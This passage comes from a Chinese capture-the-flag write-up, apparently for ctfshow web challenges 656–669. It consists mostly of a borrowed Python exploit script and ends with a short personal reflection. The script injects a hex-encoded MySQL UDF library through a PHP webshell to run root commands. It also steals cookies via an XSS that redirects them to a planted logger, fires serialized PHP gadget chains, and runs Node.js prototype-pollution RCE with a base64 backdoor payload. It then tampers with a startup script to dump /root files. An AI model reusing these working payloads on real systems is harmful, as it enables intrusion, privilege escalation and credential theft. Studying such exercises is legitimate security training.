100000000000006e000000000000007500000012000b00a70d00000000000001000000000000001000000012000c00781100000000000000000000000000003f01000012000b001a100000000000002d000000000000001f01000012000900a00b0000000000000000000000000000c30100001000f1ff881720000000000000000000000000009600000012000b00ab0d00000000000001000000000000007001000012000b0066100000000000001400000000000000cf0100001000f1ff981720000000000000000000000000005600000012000b00a50d00000000000001000000000000000201000012000b002e0f0000000000002900000000000000a301000012000b00f71000000000000041000000000000003900000012000b00a40d00000000000001000000000000003201000012000b00ea0f0000000000003000000000000000bc0100001000f1ff881720000000000000000000000000006500000012000b00a60d00000000000001000000000000002501000012000b00800f0000000000006a000000000000008500000012000b00a80d00000000000003000000000000001701000012000b00570f00000000000029000000000000005501000012000b0047100000000000001f00000000000000a900000012000b00ac0d0000000000009a000000000000008f01000012000b00e8100000000000000f00000000000000d700000012000b00460e000000000000e800000000000000005f5f676d6f6e5f73746172745f5f005f66696e69005f5f6378615f66696e616c697a65005f4a765f5265676973746572436c6173736573006c69625f6d7973716c7564665f7379735f696e666f5f6465696e6974007379735f6765745f6465696e6974007379735f657865635f6465696e6974007379735f6576616c5f6465696e6974007379735f62696e6576616c5f696e6974007379735f62696e6576616c5f6465696e6974007379735f62696e6576616c00666f726b00737973636f6e66006d6d6170007374726e6370790077616974706964007379735f6576616c006d616c6c6f6300706f70656e007265616c6c6f630066676574730070636c6f7365007379735f6576616c5f696e697400737472637079007379735f657865635f696e6974007379735f7365745f696e6974007379735f6765745f696e6974006c69625f6d7973716c7564665f7379735f696e666f006c69625f6d7973716c7564665f7379735f696e666f5f696e6974007379735f657865630073797374656d007379735f73657400736574656e76007379735f7365745f6465696e69740066726565007379735f67657400676574656e76006c6962632e736f2e36005f6564617461005f5f6273735f7374617274005f656e6400474c4942435f322e322e35000000000000000000020002000200020002000200020002000200020002000200020002000200020001000100010001000100010001000100010001000100010001000100010001000100010001000100010001000100000001000100b20100001000000000000000751a690900000200d401000000000000801720000000000008000000000000008017200000000000d01620000000000006000000020000000000000000000000d81620000000000006000000030000000000000000000000e016200000000000060000000a00000000000000000000000017200000000000070000000400000000000000000000000817200000000000070000000500000000000000000000001017200000000000070000000600000000000000000000001817200000000000070000000700000000000000000000002017200000000000070000000800000000000000000000002817200000000000070000000900000000000000000000003017200000000000070000000a00000000000000000000003817200000000000070000000b00000000000000000000004017200000000000070000000c00000000000000000000004817200000000000070000000d00000000000000000000005017200000000000070000000e00000000000000000000005817200000000000070000000f00000000000000000000006017200000000000070000001000000000000000000000006817200000000000070000001100000000000000000000007017200000000000070000001200000000000000000000007817200000000000070000001300000000000000000000004883ec08e827010000e8c2010000e88d0500004883c408c3ff35320b2000ff25340b20000f1f4000ff25320b20006800000000e9e0ffffffff252a0b20006801000000e9d0ffffffff25220b20006802000000e9c0ffffffff251a0b20006803000000e9b0ffffffff25120b20006804000000e9a0ffffffff250a0b20006805000000e990ffffffff25020b20006806000000e980ffffffff25fa0a20006807000000e970ffffffff25f20a20006808000000e960ffffffff25ea0a20006809000000e950ffffffff25e20a2000680a000000e940ffffffff25da0a2000680b000000e930ffffffff25d20a2000680c000000e920ffffffff25ca0a2000680d000000e910ffffffff25c20a2000680e000000e900ffffffff25ba0a2000680f000000e9f0feffff00000000000000004883ec08488b05f50920004885c07402ffd04883c408c390909090909090909055803d900a2000004889e5415453756248833dd809200000740c488b3d6f0a2000e812ffffff488d05130820004c8d2504082000488b15650a20004c29e048c1f803488d58ff4839da73200f1f440000488d4201488905450a200041ff14c4488b153a0a20004839da72e5c605260a2000015b415cc9c3660f1f8400000000005548833dbf072000004889e57422488b05530920004885c07416488d3da70720004989c3c941ffe30f1f840000000000c9c39090c3c3c3c331c0c3c341544883c9ff4989f455534883ec10488b4610488b3831c0f2ae48f7d1488d69ffe8b6feffff83f80089c77c61754fbf1e000000e803feffff488d70ff4531c94531c031ffb921000000ba07000000488d042e48f7d64821c6e8aefeffff4883f8ff4889c37427498b4424104889ea4889df488b30e852feffffffd3eb0cba0100000031f6e802feffff31c0eb05b8010000005a595b5d415cc34157bf00040000415641554531ed415455534889f34883ec1848894c24104c89442408e85afdffffbf010000004989c6e84dfdffffc600004889c5488b4310488d356a030000488b38e814feffff4989c7eb374c89f731c04883c9fff2ae4889ef48f7d1488d59ff4d8d641d004c89e6e8ddfdffff4a8d3c284889da4c89f64d89e54889c5e8a8fdffff4c89fabe080000004c89f7e818fdffff4885c075b44c89ffe82bfdffff807d0000750a488b442408c60001eb1f42c6442dff0031c04883c9ff4889eff2ae488b44241048f7d148ffc94889084883c4184889e85b5d415c415d415e415fc34883ec08833e014889d7750b488b460831d2833800740e488d353a020000e817fdffffb20188d05ec34883ec08833e014889d7750b488b460831d2833800740e488d3511020000e8eefcffffb20188d05fc3554889fd534889d34883ec08833e027409488d3519020000eb3f488b46088338007409488d3526020000eb2dc7400400000000488b4618488b384883c70248037808e801fcffff31d24885c0488945107511488d351f0200004889dfe887fcffffb20141585b88d05dc34883ec08833e014889f94889d77510488b46088338007507c6010131c0eb0e488d3576010000e853fcffffb0014159c34154488d35ef0100004989cc4889d7534889d34883ec08e832fcffff49c704241e0000004889d8415a5b415cc34883ec0831c0833e004889d7740e488d35d5010000e807fcffffb001415bc34883ec08488b4610488b38e862fbffff5a4898c34883ec28488b46184c8b4f104989f2488b08488b46104c89cf488b004d8d4409014889c6f3a44c89c7498b4218488b0041c6040100498b4210498b5218488b4008488b4a08ba010000004889c6f3a44c89c64c89cf498b4218488b400841c6040000e867fbffff4883c4284898c3488b7f104885ff7405e912fbffffc3554889cd534c89c34883ec08488b4610488b38e849fbffff4885c04889c27505c60301eb1531c04883c9ff4889d7f2ae48f7d148ffc948894d00595b4889d05dc39090909090909090554889e5534883ec08488b05c80320004883f8ff7419488d1dbb0320000f1f004883eb08ffd0488b034883f8ff75f14883c4085bc9c390904883ec08e86ffbffff4883c408c345787065637465642065786163746c79206f6e6520737472696e67207479706520706172616d657465720045787065637465642065786163746c792074776f20617267756d656e747300457870656374656420737472696e67207479706520666f72206e616d6520706172616d6574657200436f756c64206e6f7420616c6c6f63617465206d656d6f7279006c69625f6d7973716c7564665f7379732076657273696f6e20302e302e34004e6f20617267756d656e747320616c6c6f77656420287564663a206c69625f6d7973716c7564665f7379735f696e666f290000011b033b980000001200000040fbffffb400000041fbffffcc00000042fbffffe400000043fbfffffc00000044fbffff1401000047fbffff2c01000048fbffff44010000e2fbffff6c010000cafcffffa4010000f3fcffffbc0100001cfdffffd401000086fdfffff4010000b6fdffff0c020000e3fdffff2c02000002feffff4402000016feffff5c02000084feffff7402000093feffff8c0200001400000000000000017a5200017810011b0c070890010000140000001c00000084faffff01000000000000000000000014000000340000006dfaffff010000000000000000000000140000004c00000056faffff01000000000000000000000014000000640000003ffaffff010000000000000000000000140000007c00000028faffff030000000000000000000000140000009400000013faffff01000000000000000000000024000000ac000000fcf9ffff9a00000000420e108c02480e18410e20440e3083048603000000000034000000d40000006efaffffe800000000420e10470e18420e208d048e038f02450e28410e30410e38830786068c05470e50000000000000140000000c0100001efbffff2900000000440e100000000014000000240100002ffbffff2900000000440e10000000001c0000003c01000040fbffff6a00000000410e108602440e188303470e200000140000005c0100008afbffff3000000000440e10000000001c00000074010000a2fbffff2d00000000420e108c024e0e188303470e2000001400000094010000affbffff1f00000000440e100000000014000000ac010000b6fbffff1400000000440e100000000014000000c4010000b2fbffff6e00000000440e300000000014000000dc01000008fcffff0f00000000000000000000001c000000f4010000fffbffff4100000000410e108602440e188303470e2000000000000000000000ffffffffffffffff0000000000000000ffffffffffffffff000000000000000000000000000000000100000000000000b2010000000000000c00000000000000a00b0000000000000d00000000000000781100000000000004000000000000005801000000000000f5feff6f00000000a00200000000000005000000000000006807000000000000060000000000000060030000000000000a00000000000000e0010000000000000b0000000000000018000000000000000300000000000000e81620000000000002000000000000008001000000000000140000000000000007000000000000001700000000000000200a0000000000000700000000000000c0090000000000000800000000000000600000000000000009000000000000001800000000000000feffff6f00000000a009000000000000ffffff6f000000000100000000000000f0ffff6f000000004809000000000000f9ffff6f0000000001000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000401520000000000000000000000000000000000000000000ce0b000000000000de0b000000000000ee0b000000000000fe0b0000000000000e0c0000000000001e0c0000000000002e0c0000000000003e0c0000000000004e0c0000000000005e0c0000000000006e0c0000000000007e0c0000000000008e0c0000000000009e0c000000000000ae0c000000000000be0c0000000000008017200000000000004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200002e7368737472746162002e676e752e68617368002e64796e73796d002e64796e737472002e676e752e76657273696f6e002e676e752e76657273696f6e5f72002e72656c612e64796e002e72656c612e706c74002e696e6974002e74657874002e66696e69002e726f64617461002e65685f6672616d655f686472002e65685f6672616d65002e63746f7273002e64746f7273002e6a6372002e64796e616d6963002e676f74002e676f742e706c74002e64617461002e627373002e636f6d6d656e7400000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000f0000000500000002000000000000005801000000000000580100000000000048010000000000000300000000000000080000000000000004000000000000000b000000f6ffff6f0200000000000000a002000000000000a002000000000000c000000000000000030000000000000008000000000000000000000000000000150000000b00000002000000000000006003000000000000600300000000000008040000000000000400000002000000080000000000000018000000000000001d00000003000000020000000000000068070000000000006807000000000000e00100000000000000000000000000000100000000000000000000000000000025000000ffffff6f020000000000000048090000000000004809000000000000560000000000000003000000000000000200000000000000020000000000000032000000feffff6f0200000000000000a009000000000000a009000000000000200000000000000004000000010000000800000000000000000000000000000041000000040000000200000000000000c009000000000000c00900000000000060000000000000000300000000000000080000000000000018000000000000004b000000040000000200000000000000200a000000000000200a0000000000008001000000000000030000000a0000000800000000000000180000000000000055000000010000000600000000000000a00b000000000000a00b000000000000180000000000000000000000000000000400000000000000000000000000000050000000010000000600000000000000b80b000000000000b80b00000000000010010000000000000000000000000000040000000000000010000000000000005b000000010000000600000000000000d00c000000000000d00c000000000000a80400000000000000000000000000001000000000000000000000000000000061000000010000000600000000000000781100000000000078110000000000000e000000000000000000000000000000040000000000000000000000000000006700000001000000320000000000000086110000000000008611000000000000dd000000000000000000000000000000010000000000000001000000000000006f000000010000000200000000000000641200000000000064120000000000009c000000000000000000000000000000040000000000000000000000000000007d000000010000000200000000000000001300000000000000130000000000001402000000000000000000000000000008000000000000000000000000000000870000000100000003000000000000001815200000000000181500000000000010000000000000000000000000000000080000000000000000000000000000008e000000010000000300000000000000281520000000000028150000000000001000000000000000000000000000000008000000000000000000000000000000950000000100000003000000000000003815200000000000381500000000000008000000000000000000000000000000080000000000000000000000000000009a000000060000000300000000000000401520000000000040150000000000009001000000000000040000000000000008000000000000001000000000000000a3000000010000000300000000000000d016200000000000d0160000000000001800000000000000000000000000000008000000000000000800000000000000a8000000010000000300000000000000e8162000\'));',
    'file':'../db/data_you_never_know.db',
    'key':'key_is_here_you_know'}
sess.post(url+"a.php",data=data2)
data4={
    '1':"shell_exec('cp /var/www/html/udf.so /usr/lib/mariadb/plugin/udf.so');",
    'file':'../db/data_you_never_know.db',
    'key':'key_is_here_you_know'
}
sess.post(url+"a.php",data=data4)
sess.post(url+"a.php",data={'1':'`mysql -uroot -proot -e "create function sys_eval returns string soname \'udf.so\'"`;'})
cmd='''mysql -uroot -proot -e "select sys_eval('sudo cat /root/you_win')"'''
cmd=base64.b64encode(cmd.encode()).decode()
datax={'1':'echo `echo {0}|base64 -d|sh`;'.format(cmd)}
r1=sess.post(url+"a.php",data=datax)
print(r1.text)

#第二阶段
#获取内网ip
r1=sess.post(url+"a.php",data={'1':'echo `cat /etc/hosts`;'})
ip1=re.findall('(172.*?)web',r1.text,re.S)[0].strip()
# print(ip1)
ip2=re.sub("\.4$",'.5',ip1)  #另外一台服务器地址
print(ip2)

#xss获取cookie
sess.post(url+'a.php',data={'1':"file_put_contents('log.php','<?php highlight_file(__FILE__);$parameter = $_SERVER[\"QUERY_STRING\"].$_SERVER[\"HTTP_COOKIE\"];file_put_contents(\"log.txt\",$parameter);');?>"})
u="http://{0}/log.php?s=".format(ip1)
a=''
for i in u:
    a=a+str(ord(i))+','
a=re.sub(",$",'',a)
sess.post(url+"a.php",data={'1':'`curl --header "X-Forwarded-For:<script>window.location.href=String.fromCharCode({0})+document.cookie;</script>" http://{1}/index.php?action=login\&u=0002\&p=345`;'.format(a,ip2)})
## 隔上一两分钟访问log.txt就能拿到cookie和auth
while True:
    try:
        log=sess.get(url+'log.txt').text
        phpsessid=re.findall("(PHPSESSID=.*?);%20",log)[0]
        auth=re.findall("(auth=.*)",log)[0]
        # print(phpsessid)
        flag656=str(base64.b64decode(auth))
        #web656
        print(re.findall('flag.*?=ctfshow{.*?}',flag656)[0])
        break
    except:
        print('error')
        time.sleep(60)    # 应该是一分钟一次

#web667, 时间太久了，直接定位到3000端口，想跑一下也行
# for i in range(1,10000):
#     cmd='echo file_get_contents(\'http://' + ip2 + ':' + str(i) + '\');'
#     data5 = {'1': cmd}
#     r = sess.post(url + "a.php", data=data5)
#     print(i)
#     if 'Connection refused' not in r.text:
#         print(cmd + '\n' + r.text)
cmd='echo file_get_contents(\'http://' + ip2 + ':3000' + '\');'
data5 = {'1': cmd}
r = sess.post(url + "a.php", data=data5)
print(r.text)

#web658
ser="O%3A32%3A%22Codeception%5CExtension%5CRunProcess%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00output%22%3BO%3A22%3A%22Faker%5CDefaultGenerator%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00default%22%3Bs%3A5%3A%22jiang%22%3B%7Ds%3A43%3A%22%00Codeception%5CExtension%5CRunProcess%00processes%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A22%3A%22Faker%5CDefaultGenerator%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00default%22%3BO%3A28%3A%22GuzzleHttp%5CPsr7%5CAppendStream%22%3A2%3A%7Bs%3A37%3A%22%00GuzzleHttp%5CPsr7%5CAppendStream%00streams%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A29%3A%22GuzzleHttp%5CPsr7%5CCachingStream%22%3A2%3A%7Bs%3A43%3A%22%00GuzzleHttp%5CPsr7%5CCachingStream%00remoteStream%22%3BO%3A22%3A%22Faker%5CDefaultGenerator%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00default%22%3Bb%3A0%3B%7Ds%3A6%3A%22stream%22%3BO%3A26%3A%22GuzzleHttp%5CPsr7%5CPumpStream%22%3A3%3A%7Bs%3A34%3A%22%00GuzzleHttp%5CPsr7%5CPumpStream%00source%22%3BC%3A32%3A%22Opis%5CClosure%5CSerializableClosure%22%3A231%3A%7Ba%3A5%3A%7Bs%3A3%3A%22use%22%3Ba%3A0%3A%7B%7Ds%3A8%3A%22function%22%3Bs%3A76%3A%22function%28%29%7B%5Cphpinfo%28%29%3B%5Chighlight_file%28%27%2Fvar%2Fwww%2Fhtml%2Fflag.php%27%29%3B%5Cphpinfo%28%29%3B%7D%22%3Bs%3A5%3A%22scope%22%3Bs%3A26%3A%22GuzzleHttp%5CPsr7%5CPumpStream%22%3Bs%3A4%3A%22this%22%3BN%3Bs%3A4%3A%22self%22%3Bs%3A32%3A%22000000004e63ed86000000002cc68e15%22%3B%7D%7Ds%3A32%3A%22%00GuzzleHttp%5CPsr7%5CPumpStream%00size%22%3Bi%3A-10%3Bs%3A34%3A%22%00GuzzleHttp%5CPsr7%5CPumpStream%00buffer%22%3BO%3A22%3A%22Faker%5CDefaultGenerator%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00default%22%3Bs%3A1%3A%22j%22%3B%7D%7D%7D%7Ds%3A38%3A%22%00GuzzleHttp%5CPsr7%5CAppendStream%00seekable%22%3Bb%3A1%3B%7D%7D%7D%7D"
data6={'1':'echo ` curl  -H "Content-Type: application/x-www-form-urlencoded"   -X POST  -d "UnserializeForm[ctfshowUnserializeData]={0}" http://{1}:8888?r=site/unserialize\\&key=flag_663%3Dctfshow%7Bfa5cc1fb0bfc986d1ef150269c0de197%7D`;'.format(ser,ip2)}
flags=re.findall('flag.*?=ctfshow{.*?}',sess.post(url+"a.php",data=data6).text)
print(flags[4])

#web662
list='0123456789abcdef'
m=''
result=0
while(1):
    for i in list:
        for j in list:
            for k in list:
                payload="sudo curl "+ip2+"/"+str(i)+str(j)+str(k)+".html"
                payload="select sys_eval('"+payload+"');"
                # print(str(i)+str(j)+str(k)+".html")
                data = {"sql": payload,}
                r = requests.post(url=url+'sqltest.php', data=data)
                m=r.text
                if('404' not in m):
                    print(r.text)
                    result=1
                    break
        if(result==1):
            break
    if(result==1):
        break

##web664
ser="O%3A32%3A%22Codeception%5CExtension%5CRunProcess%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00output%22%3BO%3A22%3A%22Faker%5CDefaultGenerator%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00default%22%3Bs%3A5%3A%22jiang%22%3B%7Ds%3A43%3A%22%00Codeception%5CExtension%5CRunProcess%00processes%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A22%3A%22Faker%5CDefaultGenerator%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00default%22%3BO%3A28%3A%22GuzzleHttp%5CPsr7%5CAppendStream%22%3A2%3A%7Bs%3A37%3A%22%00GuzzleHttp%5CPsr7%5CAppendStream%00streams%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A29%3A%22GuzzleHttp%5CPsr7%5CCachingStream%22%3A2%3A%7Bs%3A43%3A%22%00GuzzleHttp%5CPsr7%5CCachingStream%00remoteStream%22%3BO%3A22%3A%22Faker%5CDefaultGenerator%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00default%22%3Bb%3A0%3B%7Ds%3A6%3A%22stream%22%3BO%3A26%3A%22GuzzleHttp%5CPsr7%5CPumpStream%22%3A3%3A%7Bs%3A34%3A%22%00GuzzleHttp%5CPsr7%5CPumpStream%00source%22%3BC%3A32%3A%22Opis%5CClosure%5CSerializableClosure%22%3A228%3A%7Ba%3A5%3A%7Bs%3A3%3A%22use%22%3Ba%3A0%3A%7B%7Ds%3A8%3A%22function%22%3Bs%3A73%3A%22function%28%29%7B%5Cphpinfo%28%29%3B%5Chighlight_file%28%27%2Fvar%2Foa%2Fflag664.php%27%29%3B%5Cphpinfo%28%29%3B%7D%22%3Bs%3A5%3A%22scope%22%3Bs%3A26%3A%22GuzzleHttp%5CPsr7%5CPumpStream%22%3Bs%3A4%3A%22this%22%3BN%3Bs%3A4%3A%22self%22%3Bs%3A32%3A%22000000000b45001f0000000040612da3%22%3B%7D%7Ds%3A32%3A%22%00GuzzleHttp%5CPsr7%5CPumpStream%00size%22%3Bi%3A-10%3Bs%3A34%3A%22%00GuzzleHttp%5CPsr7%5CPumpStream%00buffer%22%3BO%3A22%3A%22Faker%5CDefaultGenerator%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00default%22%3Bs%3A1%3A%22j%22%3B%7D%7D%7D%7Ds%3A38%3A%22%00GuzzleHttp%5CPsr7%5CAppendStream%00seekable%22%3Bb%3A1%3B%7D%7D%7D%7D"
data={'1':'echo ` curl  -H "Content-Type: application/x-www-form-urlencoded"   -X POST  -d "UnserializeForm[ctfshowUnserializeData]={0}" http://{1}:8888?r=site/unserialize\\&key=flag_663%3Dctfshow%7Bfa5cc1fb0bfc986d1ef150269c0de197%7D`;'.format(ser,ip2)}
flags=re.findall('flag_.*?=ctfshow{.*?}',sess.post(url+"a.php",data=data).text)
print(flags[2])

#用nodejs来rce
cmd='''echo `curl -i -X POST -H 'Content-type':'application/json' -d "{\\"__proto__\\":{\\"__proto__\\": {\\"type\\":\\"Block\\",\\"nodes\\":\\"\\",\\"compileDebug\\":1,\\"self\\":1,\\"line\\":\\"global.process.mainModule.require('child_process').exec('echo YmFzaCAtYyAiZWNobyBkbUZ5SUdoMGRIQWdQU0J5WlhGMWFYSmxLQ2RvZEhSd0p5azdDblpoY2lCeGRXVnllWE4wY21sdVp5QTlJSEpsY1hWcGNtVW9KM0YxWlhKNWMzUnlhVzVuSnlrN0NncDJZWElnY0c5emRFaFVUVXdnUFNBbk1USXpKenNLSUFwb2RIUndMbU55WldGMFpWTmxjblpsY2lobWRXNWpkR2x2YmlBb2NtVnhMQ0J5WlhNcElIc0tJQ0IyWVhJZ1ltOWtlU0E5SUNJaU93b2dJSEpsY1M1dmJpZ25aR0YwWVNjc0lHWjFibU4wYVc5dUlDaGphSFZ1YXlrZ2V3b2dJQ0FnWW05a2VTQXJQU0JqYUhWdWF6c0tJQ0I5S1RzS0lDQnlaWEV1YjI0b0oyVnVaQ2NzSUdaMWJtTjBhVzl1SUNncElIc0tJQ0FnSUdKdlpIa2dQU0J4ZFdWeWVYTjBjbWx1Wnk1d1lYSnpaU2hpYjJSNUtUc0tJQ0FnSUhKbGN5NTNjbWwwWlVobFlXUW9NakF3TENCN0owTnZiblJsYm5RdFZIbHdaU2M2SUNkMFpYaDBMMmgwYld3N0lHTm9ZWEp6WlhROWRYUm1PQ2Q5S1RzS0lIUnllWHNLSUNBZ0lHbG1LR0p2WkhrdVkyMWtLU0I3Q2lBZ0lDQWdJQ0FnY21WekxuZHlhWFJsS0NKMWMyVnlibUZ0WmUrOG1pSWdLeUJpYjJSNUxtTnRaQ2s3Q2lBZ0lDQWdJQ0FnZG1GeUlISmxjM1ZzZEQwZ1oyeHZZbUZzTG5CeWIyTmxjM011YldGcGJrMXZaSFZzWlM1amIyNXpkSEoxWTNSdmNpNWZiRzloWkNnblkyaHBiR1JmY0hKdlkyVnpjeWNwTG1WNFpXTlRlVzVqS0NkaVlYTm9JQzFqSUNJbksySnZaSGt1WTIxa0t5Y2lKeWt1ZEc5VGRISnBibWNvS1RzS0lDQWdJQ0FnSUNCeVpYTXVkM0pwZEdVb2NtVnpkV3gwS1RzS0lDQWdJSDBnWld4elpTQjdDaUFnSUNBZ0lDQWdjbVZ6TG5keWFYUmxLSEJ2YzNSSVZFMU1LVHNLSUNBZ0lIMTlDaUFnSUNCallYUmphSHNLSUNBZ0lDQWdJSEpsY3k1M2NtbDBaU2h3YjNOMFNGUk5UQ2s3SUFvZ0lDQWdmUW9nSUNBZ2NtVnpMbVZ1WkNncE93b2dJSDBwT3dwOUtTNXNhWE4wWlc0b09EQXpNeWs3Q2c9PXxiYXNlNjQgLWQgPiAvaG9tZS9ub2RlL2FhLmpzO25vZGUgL2hvbWUvbm9kZS9hYS5qcyI=|base64 -d|bash')\\"}}}" http://'''+ip2+''':3000/login`;'''
sess.post(url+"a.php",data={'1':cmd})

while True:
    try:
        #web666
        print(re.findall('flag_.*?=ctfshow{.*?}',sess.post(url+'a.php',data={'1':"echo `curl -X POST -d \"cmd=mysql -uroot -proot -e 'use ctfshow;select * from ctfshow_secret'\" http://{0}:8033`;".format(ip2)}).text)[0])
        #web668
        print(re.findall('flag_.*?=ctfshow{.*?}',sess.post(url+'a.php',data={'1':"echo `curl -X POST -d \"cmd=tac secret.txt\" http://{0}:8033`;".format(ip2)}).text)[0])
        sess.post(url+'a.php',data={'1':"echo `curl -X POST -d \"cmd=rm -rf  nodestartup.sh;echo 'cat /root/* > /home/node/a.txt ' > nodestartup.sh\" http://{0}:8033`;".format(ip2)})
        #web669
        while True:
            r = sess.post(url + 'a.php',
                          data={'1': "echo `curl -X POST -d \"cmd=cat a.txt\" http://{0}:8033`;".format(ip2)})
            if "flag" in r.text:
                print(r.text)
                break
        break
    except:
        pass
```

这是一个师傅写的借用一下，自己就懒得写了

# 小结

还是很有意思的，中途卡在了那个xss哪里，一不小心花了300分买提示，气死我了，很多都是看着师傅们的WP写的，找flag找的头晕晕的，很好的一次渗透过程吧，之前没有渗透过

自己要学的东西还是很多啊，感谢网上的师傅们的博客，学到了一些东西

起因是因为看pickle反序列化有点看的不爽了，于是就来打了打

